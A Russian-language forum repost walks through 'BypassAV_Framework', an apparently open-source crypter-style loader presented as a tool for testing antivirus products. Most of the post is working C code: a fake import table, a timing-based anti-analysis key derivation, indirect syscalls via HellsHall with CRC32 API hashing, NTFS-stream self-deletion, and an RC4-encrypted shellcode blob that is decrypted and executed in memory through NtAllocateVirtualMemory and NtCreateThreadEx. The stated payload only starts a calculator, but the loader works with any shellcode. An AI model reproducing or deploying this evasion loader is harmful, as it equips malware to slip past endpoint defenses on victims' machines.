

Перепост темы с русферы, думаю кому-то может пригодиться:
Всем привет!
Итак, основная цель любого вредоносного кода, это скрытие своих действий что-бы избежать детект.
Давайте подумаем что вирусописатель может сейчас сделать в ограниченной среде (Usermode), не будем брать в расчет эксплуатацию уязвимостей и возможность запуска например своих вредоносных драйверов, руткитов и т.д.
Мы в юзермоде и вырваться не можем от туда, в данной статье рассматривается такая среда.
Итак что мы можем сделать в своём зверьке ?
1)Скрытие от статического анализа:
Ну тут самое первое что можно сделать, скрыть все возможно подозрительные API винды, который использует зверёк.
Как варианты, это отключение CRT, хеширование функций и вызов их по хешу, хеширование строк и т.д.
2)Запутывание:
Согласитесь, подозрительно если ваша программа не использует не одного API, для этого делают фейковый импорт, с безопасными API.
3)Скрытие в рантайме:
Ну хорошо, мы скрыли API, но тем не менее антивирусы всё-равно продолжают мониторить вызовы многих API, еcли это делается в юзермоде, то можно обойти используя техники антихуков, в предложенном проекте это будет рассмотрено позже.
Но современные антивирусы всё-равно мониторят многую активность, но уже на уровне драйвера.)
4)Шифрование вредоносной нагрузки и запуск в рантайме:
Тут вредоносный код размещается в бинарнике в шифрованном виде, а в момент запуска зверька всё расшифровывается и запускается в памяти.
Попутно используются техники антианализа, например сложное генерация ключа, ветвления, задержки и т.д.
5)Обфускация самого вредоносного кода:
Тут смысл что-бы код был разный каждый раз, но выполнял нужные действия.
Ну наверное примерно это основное, что можно сделать.
Итак что делает проект:
А проект, делает все пункты описанные выше.
По сути проект, имитирует хороший криптор, но при этом не запускает вредоносный код.
Фреймворк содержит шелл-код, который запускает калькулятор.)
Шелл-код в зашифрованном виде, при запуске он расшифровывается, используя техники антианализа и запускается в памяти.
Короче можете попробовать, если калькулятор запустится, то АВ нуждается в доработке для защиты от таких угроз.)
Итак теперь подробнее что делает фреймврок:
Ссылка на код в гитхабе:GitHub - XShar/BypassAV_Framework: Test antiviruses
У проекта 5 модулей, которые вы можете доработать, для тестов или ещё для чего хотите.
1) Ну во первых у фреймворка отключено CRT, вот у BypassAV_Framework.exe такой список Windows API:
BypassAV_Framework/src/FakeIat.c:
В данном модуле вызовы фейковых API, на самом деле и вызовов никаких нет, просто код который типо должен их вызвать, такой код:
C:
DWORD FakeIat()
{
// Получение количества миллисекунд с момента запуска системы
DWORD tickCount = GetTickCount();
// Невозможное if-условие, которое никогда не выполнится
if (tickCount < 0) {
// Случайные доброжелательные WinAPI
unsigned __int64 i = MessageBoxA(NULL, NULL, NULL, NULL);
i = GetLastError();
i = SetCriticalSectionSpinCount(NULL, NULL);
i = GetWindowContextHelpId(NULL);
i = GetWindowLongPtrW(NULL, NULL);
i = RegisterClassW(NULL);
i = IsWindowVisible(NULL);
i = ConvertDefaultLocale(NULL);
i = MultiByteToWideChar(NULL, NULL, NULL, NULL, NULL, NULL);
i = IsDialogMessageW(NULL, NULL);
}
return tickCount;
}2) src/AntiAnalysis.c:
Функция uint32_t GetInitKey() получает ключ для расшифровки, используя технику антианализа.
Техника антианализа заключается в том-что запускается поток, в котором происходит ожидание 5 секунд, при помощи таймера.
Также в основном потоке происходит ожидание завершение запущенного потока, но в течении 2 секунд, короче при нормальной ситуации основной поток не должен дождаться завершение дочернего и функция NtWaitForSingleObject должна выйти после 2 сек. ожидания с ошибкой STATUS_TIMEOUT.
Так-вот ключ будет значением status NtWaitForSingleObject + 2.
Также в этом модуле реализован механизм самоудаления на NT функциях (BOOL NtDeleteSelf()), методика переименования потоков NTFS и их удаления.)
3)src/HellsHallInit.c
Скрытие API Ntdll осуществляется при помощи HellsHall: GitHub - Maldev-Academy/HellHall: Performing Indirect Clean Syscalls
Но для его удобного использования был написан HellsHallInit.c:
Перед использованием нужно вызвать функцию BOOL HellsHallInit(), её код примерно такой:
C:
BOOL HellsHallInit()
{
RtlSecureZeroMemory(&S, sizeof(HellsHallStruct));
if (!InitilizeSysFunc(NtAllocateVirtualMemory_CRC32b))
{
PRINTA("Fail NtAllocateVirtualMemory init \n");
return FALSE;
}
getSysFuncStruct(&S.NtAllocateVirtualMemory);
if (!InitilizeSysFunc(NtProtectVirtualMemory_CRC32b))
{
PRINTA("Fail NtProtectVirtualMemor init \n");
return FALSE;
}
getSysFuncStruct(&S.NtProtectVirtualMemory);
*********В общем в этой функции получаются адреса на системные вызовы нужных API.
В include/HellsHall.h нужно добавит хеши нужных функций и добавить поле в структуру _HellsHallStruct:
C:
#define NtAllocateVirtualMemory_CRC32b 0xE0762FEB
#define NtProtectVirtualMemory_CRC32b 0x5C2D1A97
#define NtCreateThreadEx_CRC32b 0x2073465A
#define NtCreateSection_CRC32b 0x9EEE4B80
#define NtMapViewOfSection_CRC32b 0xA4163EBC
#define NtUnmapViewOfSection_CRC32b 0x90483FF6
#define NtClose_CRC32b 0x0D09C750
#define NtWaitForSingleObject_CRC32b 0xDD554681
#define NtSetInformationFile_CRC32b 0x62EA7CB7
#define NtOpenFile_CRC32b 0xA1B1DC21
#define RtlInitUnicodeString_CRC32b 0x7AA7B69B
#define NtDelayExecution_CRC32b 0xF5A86278
#define NtQuerySystemInformation_CRC32b 0x97FD2398
typedef struct _HellsHallStruct
{
SysFunc NtAllocateVirtualMemory;
SysFunc NtProtectVirtualMemory;
SysFunc NtCreateThreadEx;
SysFunc NtCreateSection;
SysFunc NtMapViewOfSection;
SysFunc NtUnmapViewOfSection;
SysFunc NtClose;
SysFunc NtWaitForSingleObject;
SysFunc RtlInitUnicodeString;
SysFunc NtSetInformationFile;
SysFunc NtOpenFile;
SysFunc NtDelayExecution;
SysFunc NtQuerySystemInformation;
} HellsHallStruct, *pHellsHallStruct;Сами хеши функций можно получить во вспомогательном проекте Hasher (Идет вместе с проектом), там такой код:
C:
#define SEED 0xEDB88320
uint32_t crc32b(const uint8_t* str) {
uint32_t byte = 0x0,
mask = 0x0,
crc = 0xFFFFFFFF;
int i = 0x0,
j = 0x0;
while (str[i] != 0) {
byte = str[i];
crc = crc ^ byte;
for (j = 7; j >= 0; j--) {
mask = -1 * (crc & 1);
crc = (crc >> 1) ^ (SEED & mask);
}
i++;
}
return ~crc;
}
#define HASH(API) (crc32b((uint8_t*)API))
int main()
{
printf("#define NtAllocateVirtualMemory_CRC32b 0x%0.8X \n", HASH("NtAllocateVirtualMemory"));
printf("#define NtProtectVirtualMemory_CRC32b 0x%0.8X \n", HASH("NtProtectVirtualMemory"));
printf("#define NtCreateThreadEx_CRC32b 0x%0.8X \n", HASH("NtCreateThreadEx"));
printf("#define NtOpenFile_CRC32b 0x%0.8X \n", HASH("NtOpenFile"));
printf("#define RtlInitUnicodeString_CRC32b 0x%0.8X \n", HASH("RtlInitUnicodeString"));
printf("#define NtSetInformationFile_CRC32b 0x%0.8X \n", HASH("NtSetInformationFile"));
printf("#define NtCreateSection_CRC32b 0x%0.8X \n", HASH("NtCreateSection"));
printf("#define NtMapViewOfSection_CRC32b 0x%0.8X \n", HASH("NtMapViewOfSection"));
printf("#define NtUnmapViewOfSection_CRC32b 0x%0.8X \n", HASH("NtUnmapViewOfSection"));
printf("#define NtClose_CRC32b 0x%0.8X \n", HASH("NtClose"));
printf("#define NtWaitForSingleObjec_CRC32b 0x%0.8X \n", HASH("NtWaitForSingleObjec"));
printf("#define CloseHandle_CRC32b 0x%0.8X \n", HASH("CloseHandle"));
printf("#define NtWaitForSingleObject_CRC32b 0x%0.8X \n", HASH("NtWaitForSingleObject"));
printf("#define NtDelayExecution_CRC32b 0x%0.8X \n", HASH("NtDelayExecution"));
printf("#define NtQuerySystemInformation 0x%0.8X \n", HASH("NtQuerySystemInformation"));В итоге как использовать HellsHall:
C:
rez = HellsHallInit();
if (rez != TRUE)
{
PRINTA("Fail Init HellsHall \n");
WaitForSingleObject((HANDLE)-1, INFINITE);
return 1;
}
pHellsHallStruct S = GetHellsHallStruct();
SYSCALL(S->NtAllocateVirtualMemory);
if ((STATUS = HellHall((HANDLE)-1, &pAddress, 0, &dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x0) {
PRINTA("[!] NtAllocateVirtualMemory Failed With Status : 0x%0.8X\n", STATUS);
return -1;
}Перед использованием, один раз нужно вызвать HellsHallInit.
Далее например, нам нужно скрыть NtAllocateVirtualMemory.
C:
pHellsHallStruct S = GetHellsHallStruct(); - Получаем указатель на структуру pHellsHallStruct
SYSCALL(S->NtAllocateVirtualMemory) – Получаем адрес системного вызова.
HellHall((HANDLE)-1, &pAddress, 0, &dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE) – Вызываем уже саму функцию.Всё, удобно правда ?)
4)src/Payload.c
В этом модуле содержится полезная нагрузка, в шифрованном виде.
Нагрузка зашифровывается во вспомогательном проекте CryptPayload (Присутствует в проекте).
Вот код:
C:
// Ключ и данные для шифрования
uint32_t key = 0x104;
uint32_t data_len = strlen(Payload);
uint32_t key_len = 4;
// Инициализация S-блока
uint8_t s[256];
rc4_init(s, &key, key_len);
// Шифрование
rc4_crypt(s, Payload, sizeof(Payload));Соответственно код расшифровки:
C:
#include <helper.h>
static unsigned char Payload[] =
{
0x42, 0x74, 0x38, 0xf0, 0x2c, 0x05, 0x63, 0x13, 0xaa, 0x8d, 0x8f, 0x72, 0xaf, 0x56, 0x70, 0xaa, 0x69, 0x52, 0x54, 0xc6, 0x6a, 0x75, 0x9e, 0x3c,
0x73, 0xed, 0x32, 0x11, 0x45, 0x60, 0x5a, 0x61, 0x79, 0x7f, 0xcb, 0x31, 0x0e, 0xcb, 0x00, 0x2c, 0xa3, 0x13, 0x06, 0xb6, 0x05, 0x3e, 0xe0, 0x6c,
0xdc, 0x1e, 0xb6, 0x26, 0x67, 0x8f, 0xfa, 0xc7, 0x32, 0x38, 0x73, 0x2d, 0xd2, 0xdc, 0xe6, 0x2b, 0xf2, 0xc3, 0x17, 0xba, 0xbe, 0xbd, 0xdd, 0x70,
0x2a, 0x40, 0xaf, 0xd5, 0x9f, 0xf8, 0x5f, 0x4b, 0xe6, 0x34, 0x93, 0x06, 0xf2, 0x86, 0x3d, 0x39, 0x83, 0x0d, 0x5e, 0xdc, 0x2b, 0x84, 0x1f, 0xb8,
0xeb, 0x0c, 0xc9, 0x29, 0x9d, 0xc9, 0x1c, 0xca, 0xb7, 0xe2, 0x20, 0xcf, 0x30, 0x2f, 0x8a, 0xf0, 0xf1, 0xe3, 0x2b, 0x07, 0xd5, 0xbe, 0xb8, 0xec,
0x8e, 0xb9, 0xb0, 0x33, 0x00, 0x89, 0x54, 0xfc, 0x89, 0x50, 0x57, 0x26, 0x45, 0x45, 0x49, 0x6e, 0xa5, 0x7b, 0xbf, 0xb3, 0x00, 0xb2, 0xf5, 0xe4,
0xc2, 0xdf, 0xb3, 0xcd, 0xa5, 0xff, 0xda, 0x69, 0x78, 0xcb, 0xa0, 0x6f, 0x04, 0x07, 0x03, 0xc7, 0xe9, 0x5e, 0x53, 0x7c, 0xb8, 0xb5, 0xea, 0xd6,
0xc5, 0x24, 0xf3, 0xaf, 0x53, 0x32, 0x5c, 0x22, 0x8a, 0x4a, 0x78, 0x98, 0xb1, 0x37, 0x89, 0xb6, 0x01, 0x56, 0xdb, 0x19, 0xd7, 0xb1, 0x81, 0xd6,
0x84, 0xa0, 0x1b, 0x2a, 0x61, 0x84, 0x26, 0x48, 0xf1, 0x84, 0x5e, 0x43, 0x97, 0xba, 0x65, 0xb8, 0x71, 0xb0, 0x3b, 0x61, 0x5b, 0x6e, 0xbc, 0xca,
0x76, 0x40, 0x04, 0xf2, 0x18, 0xe8, 0x3d, 0x4e, 0x18, 0x27, 0x63, 0x6c, 0x3c, 0xb3, 0xea, 0xf5, 0xfb, 0x33, 0x58, 0x6e, 0x12, 0x6c, 0xa3, 0xa9,
0xc8, 0x54, 0xaa, 0xbd, 0xff, 0x37, 0x35, 0xfb, 0x98, 0x8c, 0xa7, 0x24, 0x41, 0xcd, 0xc2, 0x0a, 0x8f, 0x67, 0x85, 0x4c, 0x0a, 0x58, 0x8c, 0x37,
0xd5, 0xb8, 0x41, 0x47, 0x78, 0x62, 0xdf, 0x16, 0x02, 0x99, 0x3a, 0x3d, 0x68, 0xce, 0xe7, 0x4a, 0xee, 0x0c, 0x40, 0x91, 0xa5, 0xf7, 0xc9, 0x71,
0xcf, 0x44, 0x5e, 0x43, 0x93, 0x29, 0xd2, 0x44, 0xce, 0xc9, 0xb1, 0x65, 0x97
};
static void rc4_init(uint8_t* s, uint8_t* key, uint32_t len) {
int i, j;
uint8_t k[256];
for (i = 0; i < 256; i++) {
s[i] = i;
k[i] = key[i % len];
}
for (i = 0, j = 0; i < 256; i++) {
j = (j + s[i] + k[i]) % 256;
uint8_t temp = s[i];
s[i] = s[j];
s[j] = temp;
}
}
static void rc4_crypt(uint8_t* s, uint8_t* data, uint32_t len) {
int i = 0, j = 0, t;
for (size_t n = 0; n < len; n++) {
i = (i + 1) % 256;
j = (j + s[i]) % 256;
uint8_t temp = s[i];
s[i] = s[j];
s[j] = temp;
t = (s[i] + s[j]) % 256;
data[n] ^= s[t];
}
}
static void print_array_as_c_array(uint8_t* array, uint32_t len) {
PRINTA("{ ");
for (size_t i = 0; i < len; i++) {
PRINTA("0x%02x", array[i]);
if (i < len - 1) PRINTA(", ");
}
PRINTA(" }");
}
BOOL RunPayload()
{
PVOID pAddress = NULL;
SIZE_T dwSize = sizeof(Payload);
DWORD dwOld = NULL;
HANDLE hThread = NULL;
NTSTATUS STATUS = NULL;
pHellsHallStruct S = GetHellsHallStruct();
SYSCALL(S->NtAllocateVirtualMemory);
if ((STATUS = HellHall((HANDLE)-1, &pAddress, 0, &dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x0) {
PRINTA("[!] NtAllocateVirtualMemory Failed With Status : 0x%0.8X\n", STATUS);
return -1;
}
PRINTA("[+] [HELL HALL] pAddress : 0x%p \n", pAddress);
uint32_t key = GetInitKey();
// Расшифровка
// Инициализация S-блока
uint8_t s_block[256];
rc4_init(s_block, &key, 4);
rc4_crypt(s_block, Payload, sizeof(Payload));
// Вывод расшифрованных данных
PRINTA("Decrypt data: %x", key);
print_array_as_c_array(Payload, sizeof(Payload));
PRINTA("\n");
memcpy(pAddress, Payload, sizeof(Payload));
SYSCALL(S->NtProtectVirtualMemory);
if ((STATUS = HellHall((HANDLE)-1, &pAddress, &dwSize, PAGE_EXECUTE_READ, &dwOld)) != 0x0) {
PRINTA("[!] NtProtectVirtualMemory Failed With Status : 0x%0.8X\n", STATUS);
return FALSE;
}
SYSCALL(S->NtCreateThreadEx);
if ((STATUS = HellHall(&hThread, 0x1FFFFF, NULL, (HANDLE)-1, pAddress, NULL, FALSE, NULL, NULL, NULL, NULL)) != 0x0) {
PRINTA("[!] NtCreateThreadEx Failed With Status : 0x%0.8X\n", STATUS);
return FALSE;
}
PRINTA("[#] [HELL HALL] OK ... \n");
return TRUE;
}
}5)Главный модуль main.c:
C:
#include <helper.h>
int main()
{
int rez = FakeIat();
rez = HellsHallInit();
if (rez != TRUE)
{
PRINTA("Fail Init HellsHall \n");
WaitForSingleObject((HANDLE)-1, INFINITE);
return 1;
}
RunPayload();
// бесконечное ожидание
WaitForSingleObject((HANDLE)-1, INFINITE);
return 0;
}В итоге должно при запуске BypassAV_Framework.exe получится что-то такое:

Бинарники для теста здесь: BypassAV_Framework\x64\Release (BypassAV_Framework/BypassAV_Framework/x64/Release at main · XShar/BypassAV_Framework)
Ну или можете сами собрать!
Надеюсь было интересно!)